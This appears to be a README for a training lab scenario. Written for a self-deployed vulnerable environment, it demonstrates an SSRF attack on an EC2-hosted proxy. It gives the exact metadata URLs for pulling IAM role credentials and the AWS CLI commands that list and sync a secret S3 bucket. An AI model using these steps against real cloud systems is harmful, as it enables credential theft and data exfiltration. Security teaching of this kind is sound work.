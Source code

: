 # SSRF
In this scenario you will abuse a http proxy running on an EC2 instance to get its IAM Role credentials. With the credentials in place, you discover it has too much permissions.
SSRF on EC2 is a dangerous vulnerability, especially since most AWS accounts have over-permissive IAM roles assigned to their instances. Attackers can exploit this to get their hands on valuable data.

## Attack procedure
<details><summary>The steps to take</summary>

1. Connect to the given EC2 public ip address or DNS name given in the Terraform output.
2. Enter the following url in the proxy form `http://169.254.169.254/latest/meta-data/iam/security-credentials`. 
The result wil give an IAM Instance Role name, remember this name.
3. Now input the url `http://169.254.169.254/latest/meta-data/iam/security-credentials/[role name]`. As a result, the AWS AccessKeyID, SecretAccessKey and Token are given.
4. Setup a local AWS CLI profile using these credentials and token.
e.g add the following to `~/.aws/credentials`. 

        [stolen-creds]
        aws_access_key_id = [The AccesKeyID]
        aws_secret_access_key = [The SecretAccessKey]
        aws_session_token = [The Token]

5. List all available bucket `aws s3 ls --profile stolen-creds` and discover a secret bucket.
6. List the content of the secret bucket and copy it to your local machine
`aws s3 sync s3://[name of secret bucket]/ . --profile stolen-creds`.
7. Done, secrets stolen.
</details>
